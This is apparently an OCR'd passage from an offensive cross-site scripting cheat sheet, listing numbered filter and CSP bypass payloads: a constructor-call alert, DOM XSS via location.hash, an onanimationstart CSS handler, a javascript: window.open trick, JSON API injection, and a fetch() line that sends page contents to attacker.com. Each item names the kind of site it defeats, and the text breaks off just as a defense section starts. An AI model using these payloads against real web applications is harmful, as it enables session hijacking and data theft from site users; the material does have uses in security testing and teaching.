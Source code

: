 Some web apps block alert(), but JavaScript allows calling functions dynamically.

<script>
    [].constructor.constructor("alert('XSS via constructor')")();
</script>

✅ Bypass Target: Sites that filter alert but allow constructor.
💣 6️⃣ DOM XSS via location.hash

If a site injects window.location.hash directly into the DOM, you can exploit it like this:
🔴 Example (Vulnerable Code)

document.getElementById("output").innerHTML = window.location.hash;

🔥 Attack URL

http://victim.com/#<script>alert('XSS via hash')</script>

✅ Bypass Target: Apps that use window.location without sanitization.
💣 7️⃣ Event Listener Bypass (onanimationstart)

Some apps block common event handlers (onerror, onclick), but allow CSS-based event triggers.

<style>
@keyframes x{0%{}} 
div { animation-name: x; animation-duration: 1s; }
</style>
<div onanimationstart="alert('XSS via CSS Events')"></div>

✅ Bypass Target: Sites that block onclick, onmouseover, but allow CSS animations.
💣 8️⃣ JavaScript Injection via window.open()

Some CSP rules block <script>, but allow window.open().

<a href="javascript:window.open('javascript:alert(`XSS`);')">Click Me</a>

✅ Bypass Target: CSP-restricted apps that allow window.open.
💣 9️⃣ fetch() Exploit for Data Theft

If you can execute JavaScript, stealing data via fetch() is possible.

<script>
    fetch("http://attacker.com/steal?data=" + document.body.innerHTML);
</script>

✅ Bypass Target: Apps that don't restrict outgoing requests.
💣 🔟 XSS in JSON-based APIs

If a JSON API returns user input without encoding, you can exploit it.
🔴 Example API Response

{ "message": "<script>alert('XSS')</script>" }

🔥 Attack URL

http://victim.com/api/comments?input=<script>alert('XSS')</script>

✅ Bypass Target: APIs that return unsanitized JSON responses.
🛡️ How to Defend Against These Advanced XSS Attacks

✅ Use a Strong CSP
